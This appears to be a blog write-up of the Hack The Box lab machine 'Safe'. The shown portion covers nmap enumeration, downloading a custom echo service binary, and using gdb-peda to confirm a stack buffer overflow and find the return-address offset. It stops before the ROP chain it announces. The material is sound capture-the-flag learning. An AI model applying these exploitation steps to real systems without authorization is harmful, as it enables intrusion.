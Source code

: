 ```yaml
---
layout: post
title: Safe
categories: [HTB Writeup, Safe]
tags: [RCE, ROP chain, enumeration, HTB]
fullview: true
comments: true
---
```


![Safe info card](/images/safe_card.png)

A 20 point box where the foothold requires a binary exploitation/ROP. However, it gets much easier from there and the ROP is fairly straight forward.  

So let's get started.

## TL;DR

* enumerate the box to find a service (with a custom binary) on port 1337
* Identify the buffer overlfow and create a ROP chain to gain a foothold
* from shell, locate a KeePass vault with images
* crack the KeePass vault using one of the image files to gain root

## Initial Enumeration

{% highlight C linenos %}
db-d2@kali:~/hack_the_box$ nmap -sC -sV -sT -o safe_map 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.147
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
{% endhighlight %}

So we have http on 80 and ssh on 22. Let's check the http site

## Web Enumeration

![Safe http site](/images/safe_http.png)

Looks like the default apache page but let's inspect it anyway

![Safe http source](/images/safe_http_src.png)

So "myapp" is running on p1337 and it's available for download. Let's check out the service first

{% highlight C linenos %}
db-d2@kali:~/hack_the_box$ nc 10.10.10.147 1337
 21:05:13 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
hello

What do you want me to echo back? hello
{% endhighlight %}

Not much here, let's grab myapp and take a look

{% highlight Ada linenos %}
db-d2@kali:~/hack_the_box$ wget http://10.10.10.147/myapp
  http://10.10.10.147/myapp
Connecting to 10.10.10.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16592 (16K)
Saving to: ‘myapp’

myapp 100%[==============================================>]  16.20K  --.-KB/s  in 0.05s

db-d2@kali:~/hack_the_box$ sudo chmod +x myapp
[sudo] password for db-d2:

db-d2@kali:~/hack_the_box$ ./myapp
 21:43:47 up 58 min,  3 users,  load average: 0.01, 0.01, 0.00

What do you want me to echo back? bob
bob
{% endhighlight %}

## Myapp
Okay so we have a pretty basic app that starts off with uptime, 
takes input and echos it back. Let's see if we have a buffer overflow in here

{% highlight bash linenos %}
What do you want me to echo back? yipyipyipyipyipyipyipyipyipyip...
...
Segmentation fault
{% endhighlight %}

And jackpot! Let's break it open in gdb and run checksec (btw, if you're not using [Peda](https://github.com/longld/peda) you should install it now)

{% highlight Ada linenos %}
Reading symbols from ./myapp...
(No debugging symbols found in ./myapp)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

NS is enabled so I won't be able to just inject and execute shellcode. I'll have to build a ROP chain. Oh, darn...

First up, I need to find the offest so let's create a pattern

{% highlight Ada linenos %}
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHA...'
gdb-peda$

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775755]
 21:10:11 up 10 days, 24 min,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcA")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0xc9
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe450 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe458 ("AAQAAmAARAAoAASAApAATAAqAAUAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe460 ("RAAoAASAApAATAAqAAUAArAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe468 ("ApAATAAqAAUAArAAVAAAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe470 ("AAUAArAAVAAtAAWAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe478 ("VAAtAAWAAuAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffe480 ("AuAAXAAAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

So we stopped on ret as it was trying to load the next stack item into the RIP. Awesome, let's own the RIP. I'll copy out "jAA9AAOA" and use it to locate the offset

{% highlight Ada linenos %}
gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120
{% endhighlight %}

Now i'll create a new pattern with a size of 120 and throw in 8 junk chars at the end

{% highlight Ada linenos}
gdb-peda$ pattern create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775918]
 22:25:55 up 10 days,  1:40,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1KAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere\n")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("helothere")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0x82
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("helothere")
0008| 0x7fffffffe450 --> 0x7fffffff0065 --> 0x0
0016| 0x7fffffffe458 --> 0x100000000
0024| 0x7fffffffe460 --> 0x40115f (<main>:	push   rbp)
0032| 0x7fffffffe468 --> 0x7ffff7e077d9 (<init_cacheinfo+297>:	mov    rbp,rax)
0040| 0x7fffffffe470 --> 0x0
0048| 0x7fffffffe478 --> 0x35136ec0411f0d74
0056| 0x7fffffffe480 --> 0x401070 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhightlight %}

